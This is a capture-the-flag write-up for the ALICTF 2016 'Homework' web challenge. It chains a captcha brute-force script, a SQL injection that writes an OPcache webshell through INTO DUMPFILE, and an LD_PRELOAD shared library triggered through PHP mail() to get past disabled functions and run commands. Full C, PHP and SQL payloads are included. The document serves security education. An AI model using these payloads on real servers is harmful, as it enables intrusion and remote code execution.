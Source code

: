 ```yaml
---
layout: post
title: Homework
category: ALICTF 2016
---
```


### Description
It's time to submit your homework.
But I'm sure the teacher is too busy to check your homework.

---

### The Challenge
This has been a very fun challenge for our team as it consisted of multiple exploitation techniques leading to RCE.

This is a big writeup, if ever there are some details that are missing, feel free to check the writeup of my teammate [here](https://github.com/tothi/ctfs/tree/master/alictf-2016/homework).

The first steps required us to register and login. Both these steps required us to enter a captcha, which we can bruteforce with a simple Python script.

![login](/assets/img/alictf-2016/login.png)

These types of captchas are fairly common in CTFs, so we already had a script ready :

``` python
#!/usr/bin/env python2

import hashlib
import string
import random
import sys

charset = string.ascii_uppercase + string.digits

while True:
  tmp = ''.join(random.choice(charset) for _ in range(6))
  tmpHash = hashlib.md5(tmp.encode()).hexdigest()
  if tmpHash[0:4] == sys.argv[1]:
    print ("[*] Solved by " + tmp)

```
---

Once we log in, we can start playing around with the website. The website consisted of three features. We can :

- Upload our homework with a brief description
- View the uploaded file
- View the description of our previously uploaded homework

![main_page](/assets/img/alictf-2016/upload_form1.png)
![upload_success](/assets/img/alictf-2016/upload_success.png)


The first thing we had in mind was to upload a PHP file directly through the upload functionality. Uploading a `payload.php` file worked, but navigating to it renders a page with the overwritten text `bad man`.

Moving on to the description viewer functionality of the website, we noticed an SQL injectable parameter in the URL :

![detail_view_sqli_poc](/assets/img/alictf-2016/detail_view_sqli_poc.png)

The parameter wasn't filtered at all, which gave us free reign to query whatever we wanted.
We could dump some system files, depending on what permissions were set on the filesystem.

![detail_view_sqli_loadfile](/assets/img/alictf-2016/detail_view_sqli_loadfile.png)

The source code folders were hardened, so not much we could do there.
We then moved on to dumping all of the available tables, unfortunately there wasn't anything interesting there either.

---

After much hours of struggling, we discovered 2 files that were publicly available on the website : `phpinfo.php` and `readme.html`.

##### phpinfo.php

This page gave us the classic output of a `phpinfo()` function call. Browsing through it quickly, we noticed that PHP 7.0's OPcache feature was enabled with the appropriate settings to run the exploitation technique presented in this [article](http://blog.gosecure.ca/2016/04/27/binary-webshell-through-opcache-in-php-7/).

![phpinfo](/assets/img/alictf-2016/phpinfo_opcache.png)

From this page, we have all the information we need to try this attack vector :

- File cache location `/tmp/OPcache`
- Document root `/var/www/html`
- `System ID`

In order for this exploitation technique to work though, we needed an unrestricted file upload vulnerability on the website through the `www-data` user, which wasn't the case here.
Which brings us to the `readme.html` file.

##### readme.html

![readme](/assets/img/alictf-2016/readme.png)

This file guides us through the installation of a plugin of some sort. Though the contents of the file is mostly irrelevant, there is one dangerous line that could make things much simpler for us : `chmod 777 -R ./`.
Because of this line, the `/tmp` as well as all of its underlying folders have `777` permissions. Which means we no longer require the `www-data` user to do unrestricted file upload.

We can go through the SQL injection vulnerability and upload files using the `INTO DUMPFILE [filename]` keywords!

---

At this point, we must understand that the `INTO DUMPFILE [filename]` keywords require us to specify a non-existant file.
Therefore, we can't overwrite existing OPcache files. We need to inject an OPcache file for a PHP script that has not been called yet.
This is where the homework upload functionality from earlier comes in. Since we can upload any file/extension we want, we can leverage that as the "PHP script that has not been called yet".

From all the information we've gathered so far, we should be able to make this attack vector work. These are the steps we had to do to get a working PHP script :

  1. Create our PHP webshell `<?php system($_GET['cmd']) ?>`
  2. Compile it into an OPcache file `payload.php.bin`
  3. Modify the `System ID` of `payload.php.bin` to match the server's `System ID`
  4. Get the hex dump of our payload. I used `cat payload.php.bin | hex`
  5. Upload a file with the name `payload.php`.
  6. Keep the path of the uploaded file aside (`/upload/XXXXXXXXXXXX-payload.php`).
  7. Upload the OPcache file at the appropriate location through SQL injection
  8. Navigate to the uploaded file.

Here is the SQL injection used on the ID parameter to upload the OPcache file :

    -1' SELECT X'[OPCACHE PAYLOAD HEXDUMP]' INTO DUMPFILE '/tmp/[SYSTEM ID]/var/www/html/[PATH OF UPLOADED FILE].bin #

---

Going through all the steps, we managed to get our PHP file to execute. This is when we encountered a new problem. Most of the functions are blocked!

![restrictions](/assets/img/alictf-2016/phpinfo_restrictions.png)

Basically, we have a working PHP script, but no way to execute shell commands.

Going through the `phpinfo` file again, we've noticed that `sendmail` is enabled.

![sendmail](/assets/img/alictf-2016/phpinfo_sendmail.png)

Doing some research on PHP and `sendmail`, we can see that PHP's `mail()` function executes the `sendmail` binary internally. Knowing this, we've concluded that we have to use the `LD_PRELOAD` trick to inject our own code and get a webshell. You can find out more about it [here](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/).

Basically, through PHP's `putenv` function, we can specify the path to a malicious shared library in the `LD_PRELOAD` environment variable.

When a file is executed, the file specified in the `LD_PRELOAD` variable will be loaded before any other library. Which gives us the oppurtunity to overwrite standard library functions and run our own code.

In this case, we have to create a library containing a function that we know is being called by `sendmail`. We'll override the `geteuid()` function. Here is our code :

``` c
/* compile: gcc -Wall -fPIC -shared -o evil.so evil.c -ldl */

#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void payload(char *cmd) {
  char buf[512];
  strcpy(buf, cmd);
  strcat(buf, " > /tmp/_0utput.txt");
  system(buf);
}

int  geteuid() {
  char *cmd;
  if (getenv("LD_PRELOAD") == NULL) { return 0; }
  unsetenv("LD_PRELOAD");
  if ((cmd = getenv("_evilcmd")) != NULL) {
    payload(cmd);
  }
  return 1;
}
```

The script above will run the command specified in the `_evilcmd` environment variable, and send the output to a temporary file that we can read.

Here is the PHP script that we'll use to trigger the evil library.

``` php
<?php
  $cmd = $_GET['cmd'];

  echo putenv("LD_PRELOAD=/var/www/html/upload/XXXXXXXXXXXX-evil.so");
  echo putenv("_evilcmd=".$_GET['cmd']);
  echo mail("a@example.com", "a", "a");
  show_source("/tmp/_0utput.txt");
?>
```

Finally :

1. Compile the `evil.so` library
2. Upload it through the upload functionality of the website
3. Keep the path of the uploaded file aside (`/upload/XXXXXXXXXXXX-evil.so`)
4. Modify the PHP script with the correct `evil.so` path.
5. Use the OPcache exploit technique from earlier to get a working PHP script on the server.
6. Navigate to the PHP script with the `cmd=echo ok` URL parameter.

![cmd_interface_test](/assets/img/alictf-2016/cmd_interface_test.png)

At this point, it's just a matter of finding the flag. Some common commands like `ls` and `cat` are restricted which makes this last step harder.
We used `printf '%s\n' /*` as a substitute for `ls` and `tac` as a substitute for `cat`.

![cmd_interface_ls](/assets/img/alictf-2016/cmd_interface_ls.png)
![cmd_interface_flag](/assets/img/alictf-2016/cmd_interface_flag.png)

**Flag :** alictf{nk2csizy7od2feyt5un4mx7s891gilf4}

